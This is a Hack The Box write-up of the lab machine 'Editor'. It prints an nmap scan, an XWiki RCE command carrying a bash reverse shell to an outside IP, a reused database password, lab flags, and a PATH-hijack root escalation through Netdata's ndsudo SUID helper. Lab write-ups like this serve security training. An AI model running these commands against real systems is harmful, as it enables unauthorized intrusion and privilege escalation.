 # Write-up: Editor HTB

![editor](https://www.hackthebox.com/storage/avatars/7d4a6dfe5b291cbe7b4e13e5f5c4d6c3.png)

**Difficulty:** Easy  
**Platform:** Hack The Box  
**Link:** [https://app.hackthebox.com/machines/Editor](https://app.hackthebox.com/machines/Editor)

## 🎯 Summary
Editor is an easy Linux machine that involves exploiting a Remote Code Execution (RCE) vulnerability in XWiki (CVE-2025-24893) for initial access, leveraging password reuse for horizontal privilege escalation, and abusing a SUID binary in Netdata (CVE-2024-32019) for root privileges.

## 📋 Table of Contents
1.  [Reconnaissance](#-reconnaissance)
2.  [Enumeration](#-enumeration)
3.  [Exploitation: Initial Foothold](#-exploitation-initial-foothold)
4.  [Privilege Escalation: User](#-privilege-escalation-to-user)
5.  [Privilege Escalation: Root](#-privilege-escalation-to-root)
6.  [Lessons Learned](#-lessons-learned)
7.  [References](#-references)

---

## 🔍 Reconnaissance

Started with a full port scan using `nmap`.

**Command:**
```bash
nmap -sC -sV -oA nmap/initial 10.10.11.80

    22/tcp - OpenSSH 8.9p1

    80/tcp - nginx 1.18.0

    8080/tcp - Jetty 10.0.28 (XWiki 15.10.8)

🚀 Exploitation

1. Initial Access (XWiki RCE):
bash

python3 exploit.py -t http://editor.htb:8080 -c 'bash -i >& /dev/tcp/10.10.14.179/4444 0>&1'

Gained shell as xwiki user.

2. User Flag:
Found credentials in /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml:
xml

<property name="hibernate.connection.password">theEd1t0rTeam99</property>

SSH access as oliver:
bash

ssh oliver@editor.htb
User flag: bc2341152c638da4a05b91d91c1df26f

3. Root Access:
Exploited SUID binary:
bash

echo 'int main(){setuid(0);system("/bin/bash");}' > /tmp/nvme-list.c
gcc /tmp/nvme-list.c -o /tmp/nvme-list
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list

Root flag: 6d4d6c2368c3210994e624647c93119f
🔑 Credentials

    DB/XWiki: xwiki:theEd1t0rTeam99

    SSH: oliver:theEd1t0rTeam99

💡 Lessons Learned

    Patch management critical

    Password reuse is dangerous

    Audit SUID binaries regularly